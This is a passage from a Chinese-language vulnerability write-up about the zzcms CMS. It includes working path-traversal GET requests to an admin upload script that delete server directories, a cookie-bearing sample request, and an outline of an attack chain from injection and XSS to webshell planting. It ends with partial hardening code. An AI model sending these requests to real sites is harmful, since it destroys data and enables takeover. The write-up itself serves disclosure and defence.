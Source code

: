 **攻击载荷**  
：  
```
GET /zzcms/admin/uploadfile_nouse.php?action=del&mlname=../../../../skin HTTP/1.1

```  
```
GET /zzcms/admin/uploadfile_nouse.php?action=del&mlname=../test11 HTTP/1.1
Host: 127.0.0.1:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Cookie: BJYADMIN=um94irfvsah6bu5ak430sd52e3; tablename=zzcms_tagzs; __51cke__=; __51uvsct__undefined=1; __51vcke__undefined=2eceb1e3-f9f3-5730-bbc8-eb6463ad77c2; __51vuft__undefined=1745240446725; __tins__713776=%7B%22sid%22%3A%201745240445656%2C%20%22vd%22%3A%203%2C%20%22expires%22%3A%201745243111066%7D; __51laig__=5; __vtins__undefined=%7B%22sid%22%3A%20%224197ba29-fb41-5c53-be71-5096ea54da82%22%2C%20%22vd%22%3A%203%2C%20%22stt%22%3A%20865661%2C%20%22dr%22%3A%20852234%2C%20%22expires%22%3A%201745243112384%2C%20%22ct%22%3A%201745241312384%7D; admin=admin; pass=e10adc3949ba59abbe56e057f20f883e
Connection: keep-alive

```  
  
执行前![](https://mmbiz.qpic.cn/sz_mmbiz_png/OMTnCvx3T1KXhnqibBY5ZTmZr6uOnaAibFHQTSBDAhia2gmFwvCSAXszQIk1taUqEyTxg8ujDSiaZWOnwszUsbiasmQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OMTnCvx3T1KXhnqibBY5ZTmZr6uOnaAibFbic2WUes8YgePCBvq1wtSwAv25f41yHibAqZD9mqKL7wicnbMwnN9HQcQ/640?wx_fmt=png&from=appmsg "")  
执行后，test666 目录直接被删除  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OMTnCvx3T1KXhnqibBY5ZTmZr6uOnaAibFGI1hjUrZo25bVIuC9x9YpS5OcicGGLQOlBk2Eaibvib8uibCy0SSxYia8jQ/640?wx_fmt=png&from=appmsg "")  
  
**危害**  
：可删除核心配置文件导致系统瘫痪  
## 三、漏洞利用链  
### （一）攻击场景还原  
1. **信息收集**  
：通过help_manage.php  
注入获取管理员账号  
  
1. **会话劫持**  
：利用存储型XSS窃取管理员Session  
  
1. **权限提升**  
：通过文件删除漏洞破坏系统文件  
  
1. **持久化控制**  
：植入WebShell  
  
### （二）防御体系重构  
#### 1. 输入验证强化  
```
// 白名单过滤示例
$allowed_params = ['id', 'name'];
foreach ($_REQUEST as $key => $value) {
    if (!in_array($key, $allowed_params)) {
        unset($_REQUEST[$key]);
    }
}

```  
#### 2. 输出编码规范  
```
// CSP头部配置
```